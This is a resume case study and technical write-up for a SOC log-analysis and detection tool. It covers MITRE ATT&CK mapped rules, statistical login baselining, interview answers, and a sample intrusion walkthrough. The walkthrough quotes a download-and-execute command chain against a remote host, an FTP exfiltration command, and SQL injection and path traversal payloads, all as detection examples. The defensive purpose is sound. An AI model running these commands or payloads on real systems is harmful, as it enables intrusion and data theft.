

# Sentryline SOC Log Analyzer — Resume Case Study & Technical Dossier

## 1. Executive Summary & Project Highlights

**Sentryline** is a detection engineering and Security Operations Center (SOC) alert triage platform designed to simulate how security analysts parse, detect, correlate, and investigate multi-stage cyber threats. Built with Python and Flask, Sentryline transforms raw, disparate telemetry (Linux SSH auth logs, Nginx/Apache web access logs, UFW firewall drops, sudo process events, and JSON/CSV streams) into a standardized event schema, maps observed attacker behaviors directly to **MITRE ATT&CK® techniques**, evaluates behavioral anomalies using robust statistical baselining, and provides an analyst-centric triage dashboard with real-time kill-chain progression tracking.

---

## 2. High-Impact Resume Bullet Points

### For Detection Engineer / Security Software Engineer:
- **Engineered an end-to-end SOC log analysis and detection engine** in Python/Flask that normalizes heterogeneous telemetry (SSH, Web, Firewall, Sudo, JSON Lines) into a unified event schema, identifying 9 distinct attack categories mapped to MITRE ATT&CK.
- **Implemented a statistical anomaly detection baseline** using Median Absolute Deviation (MAD) over circular 24-hour topology ($\min(\Delta h, 24 - \Delta h)$), reducing midnight shift false positives while accurately flagging off-hours account abuse (`T1078`).
- **Designed multi-stage correlation rules** that reconstruct stateful attacker chains (e.g., SSH brute force $\rightarrow$ account takeover $\rightarrow$ ingress tool transfer via `curl/wget` $\rightarrow$ `chmod +x` $\rightarrow$ binary execution), correlating distinct signals into unified incident dossiers.
- **Built an automated evaluation framework** against hand-labeled ground truth (`tests/ground_truth.csv`), benchmarking detector precision, recall, and false-positive rates to ensure deterministic 100% precision/recall across validated attack patterns.

### For SOC Analyst / Incident Responder:
- **Developed a full-lifecycle SOC triage workspace** featuring dynamic severity queues, interactive alert lifecycle management (`Open` $\rightarrow$ `In Progress` $\rightarrow$ `Resolved` $\rightarrow$ `False Positive`), and one-click forensic CSV exports for IR ticketing.
- **Formulated detection rules for critical adversary techniques**, including credential guessing (`T1110`), public web application exploitation (`T1190`), LOLBin abuse (`T1218`), privilege escalation (`T1548`), C2 beaconing (`T1071`), and data staging/exfiltration (`T1041`).
- **Designed an interactive ATT&CK Kill-Chain Progression Visualizer** in vanilla JavaScript, mapping real-time alert telemetry across Recon, Initial Access, Credential Access, Execution, C2, and Exfiltration phases.

---

## 3. Threat Detection Architecture

---

## 4. MITRE ATT&CK® Mapping Matrix

| Detection Rule | MITRE Technique ID | Technique Name | Tactic | Severity | Primary Signal / Logic |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **Brute Force** | `T1110` | Brute Force | Credential Access | Critical | 3+ failed logins from one IP within 10 min window |
| **Brute Force Escalated**| `T1110` | Brute Force | Credential Access | Critical | 6+ failed logins ($\ge 2\times$ threshold) in 10 min window |
| **Account Takeover** | `T1110` | Brute Force | Credential Access | Critical | Successful authentication directly following 3+ failed logins |
| **Suspicious IP** | `T1071` | Application Layer Protocol | Command & Control | High | Traffic matching known malicious threat intelligence feeds |
| **Web Application Attack**| `T1190` | Exploit Public-Facing App | Initial Access | High | SQL injection, XSS, and directory traversal payload regexes |
| **Behavioral Unusual Time**| `T1078` | Valid Accounts | Initial Access | Medium | Login deviation $> \max(2.0, 3 \times \text{MAD})$ using circular hours |
| **Country Change** | `T1078` | Valid Accounts | Initial Access | High | Impossible travel / simultaneous sessions in distinct countries |
| **Privilege Escalation** | `T1548` | Abuse Elevation Control | Privilege Escalation | Critical | Sudoers modification (`usermod -aG sudo`) or unauthorized sudo |
| **Ingress Tool Chain** | `T1105` / `T1204` | Ingress Transfer & Exec | Command & Control | Critical | `curl/wget -o <path>` $\rightarrow$ `chmod +x <path>` $\rightarrow$ `<path>` |
| **LOLBin Execution** | `T1218` | System Binary Proxy Exec | Defense Evasion | High | Encoded PowerShell / Living-off-the-Land binary executions |
| **C2 Beaconing** | `T1071` | Application Layer Protocol | Command & Control | Medium | Periodic outbound heartbeats with interval variance $\le 60\text{s}$ |
| **Data Exfiltration** | `T1041` | Exfiltration Over C2 | Exfiltration | High | Archive (`tar/zip`) followed by outbound transfer (`curl -T/scp/ftp`) |
| **Network Port Scan** | `T1046` | Network Service Scanning | Discovery | Medium | 4+ distinct destination ports blocked by UFW in $\le 10\text{s}$ |

---

## 5. Technical Interview Q&A Runbook

### Q1: "Why did you choose Median and Median Absolute Deviation (MAD) over Mean and Standard Deviation for login baselining?"
> **Answer:** "Normal distributions rarely apply to human login behaviors. Work hours often have heavy skew and severe outliers (e.g., an analyst logging in once at 3:00 AM on a weekend). The sample mean and standard deviation are non-robust statistics: a single extreme outlier drags the mean significantly and inflates the standard deviation, washing out true anomalies. Median is the 50th percentile, and MAD is the median of absolute deviations from that median. It provides a breakdown point of 50%, meaning up to half the data can be contaminated without breaking the baseline. Furthermore, we integrated circular distance modulo 24 ($\min(|h_1 - h_2|, 24 - |h_1 - h_2|)$) to ensure that logins across midnight (e.g., 23:55 and 00:10) are treated as 15 minutes apart rather than 23.75 hours apart."

### Q2: "How does the parser handle session context propagation for sudo commands?"
> **Answer:** "When an attacker logs in via SSH, the authentication event contains the client's external IP address and the SSH daemon PID. Subsequent commands executed via `sudo` or bash sessions on Linux typically only record `sudo: root : TTY=pts/1 ; PWD=... ; USER=root ; COMMAND=...` without an IP address. Sentryline's parser tracks active SSH session open/close boundaries and PAM records. It maps the host and username to the active authenticated session, dynamically injecting the original remote IP and session PID into subsequent sudo events. This enables downstream rules to attribute privileged actions and data exfiltration back to the remote attacker's IP."

### Q3: "How do you avoid alert flooding when detecting brute-force attacks?"
> **Answer:** "A naive sliding window triggers an alert on every single subsequent failed attempt once the threshold is crossed (e.g., if threshold is 3, attempts 1-3 alert, 2-4 alert, 3-5 alert, causing 10 alerts for 12 failures). We implemented timestamp-governed sliding windows: once an IP triggers a brute-force alert, subsequent overlapping windows within that same 10-minute window are suppressed, while genuine second or third attack waves occurring later in the log (e.g., hours later) are properly detected as distinct incident occurrences."

### Q4: "How do you prove that your detection rules are actually good and not just producing false positives?"
> **Answer:** "In Sentryline, detection engineering is grounded in empirical verification rather than assumptions. We maintain a version-controlled benchmark containing 53 labeled events (`tests/evaluation_logs.txt` and `tests/ground_truth.csv`). The benchmark includes true positives, true negatives, borderline cold-start cases, and malformed data. Our automated metrics engine calculates Precision, Recall, and False Positive Rate both in aggregate and per detection category. Every release is verified via automated CI tests to guarantee 100% precision and recall across our baseline."

---

## 6. Real-World Multi-Stage Attack Walkthrough

The built-in sample scenario (`tests/fixtures/sample_incident.log`) demonstrates a sophisticated APT-style intrusion that can be loaded into Sentryline with a single click:

1. **Reconnaissance & Discovery (`02:04:02 UTC`)**: Source IP `41.202.19.63` rapidly probes ports 21, 22, 23, 25, 3306, 8080, and 8443 on internal server `10.0.0.12`. Sentryline correlates the 7 UFW drop logs into a **`T1046 Network Scan`** alert.
2. **Initial Access & Web Exploitation (`02:05:10 UTC`)**: The adversary targets `web03` with SQL injection (`' OR '1'='1`) and path traversal (`../../../../etc/passwd`). Sentryline triggers **`T1190 Exploit Public-Facing Application`**.
3. **Credential Access (`02:03:11 - 02:03:22 UTC`)**: 4 failed SSH attempts against `backup` user on `db02`, triggering **`T1110 Brute Force`**.
4. **Account Takeover (`02:03:29 UTC`)**: An accepted password immediately follows the brute force sequence, triggering **`T1110 Account Takeover`**.
5. **Impossible Travel Anomaly (`02:03:31 UTC`)**: User `backup`, previously observed in the US, authenticates from Romania within 4 minutes, triggering **`T1078 Country Change / Valid Accounts`**.
6. **Tool Ingress & Execution Chain (`02:06:00 - 02:06:03 UTC`)**: Within 3 minutes of gaining access, the attacker executes:
   - `curl -s http://185.44.77.12/payload.sh -o /tmp/.sysupd`
   - `chmod +x /tmp/.sysupd`
   - `/tmp/.sysupd`
   Sentryline detects the strict path-matched chain and flags **`T1105 Ingress Tool Transfer` & `T1204 User Execution`**.
7. **Command & Control Beaconing (`02:10 - 02:25 UTC`)**: Periodic check-ins every 5 minutes (300 seconds) to `185.44.77.12:443`. Sentryline's interval variance analysis detects strict periodicity and alerts on **`T1071 C2 Beaconing`**.
8. **Data Staging & Exfiltration (`02:31:47 - 02:32:10 UTC`)**: Database compressed via `tar -czf /tmp/db_dump.tar.gz` followed within 23 seconds by `curl -T ... ftp://185.44.77.12/upload`. Sentryline flags **`T1041 Data Exfiltration`**.

